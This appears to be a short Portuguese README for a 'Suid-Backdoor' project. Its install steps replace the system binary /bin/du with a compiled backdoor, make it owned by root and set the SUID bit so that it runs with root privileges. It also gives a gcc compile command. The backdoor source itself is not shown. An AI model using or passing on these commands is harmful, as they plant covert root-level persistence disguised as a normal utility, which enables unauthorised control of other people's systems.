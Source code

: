 # Suid-Backdoor
# Instale utilizando:
mv du_original /bin/bin/duis<br>
mv backdoor /bin/du<br>
chown root:root /bin/du<br>
chmod +s /bin/du<br>

# Para remover:
Apenas faça o processo inverso ;-;

# Compile com: gcc backdoor.c -o backdoor -static

